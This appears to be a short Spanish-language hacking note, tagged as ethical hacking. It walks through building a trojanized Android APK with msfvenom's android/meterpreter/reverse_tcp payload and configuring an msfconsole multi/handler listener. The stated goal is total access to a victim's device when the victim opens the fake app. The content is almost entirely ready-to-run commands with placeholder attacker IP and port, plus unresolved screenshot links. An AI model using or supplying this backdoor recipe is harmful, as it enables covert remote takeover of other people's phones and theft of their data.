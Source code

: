 #CreacionBackdoors #HackingEtico 

Para crear esta apk maliciosa vamos a ultilizar la herramienta de *MSFVENON* con el payload *android/meterpreter/reverse_tcp*, a continuacion un poco mas.

```bash 
msfvenom -p android/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -o Nombre.apk
```

![[Pasted image 20240114142439.png]]

Después de esto vamos a entablar nos por escucha en msfconsole, configurando todos los parámetros anteriores. Para cuando nuestra vicitima habra nuestra supuesta aplicacion tener accesos total a esta misma.

```bash 
msfconsole
use /multi/handler
show options
set LHOST IP
set LPORT PORT
set PAYLOAD /android/meterpreter/reverse_tcp
run
```

![[Pasted image 20240114145231.png]]
![[Pasted image 20240114145514.png]]
Ya tenemos acceso al dispositivo de nuestra vicitima. para ver todo los comandos a los que tenemos acceso solo vasta con escribir en la terminal.

```bash 
help
```

![[Pasted image 20240114145647.png]]

